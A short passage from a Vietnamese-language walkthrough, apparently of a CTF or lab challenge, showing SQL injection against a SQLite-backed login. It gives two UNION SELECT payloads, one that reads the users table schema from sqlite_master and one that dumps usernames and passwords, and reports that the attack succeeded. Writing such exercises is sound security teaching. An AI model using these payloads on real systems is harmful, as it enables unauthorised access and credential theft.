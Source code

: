 ⇒ Có 2 bảng, ta đoán bảng users chứa tài khoản và mật khẩu

- Thử `admin' UNION SELECT sql, 'a' FROM sqlite_master WHERE type='table' AND name='users'--`

![image.png](image%2014.png)

⇒ Bảng users gồm 2 cột ta có thể khai thác là username và password

- Thử `admin' UNION SELECT username, password FROM users--`. Kết quả:

![image.png](image%2015.png)

⇒ Thành công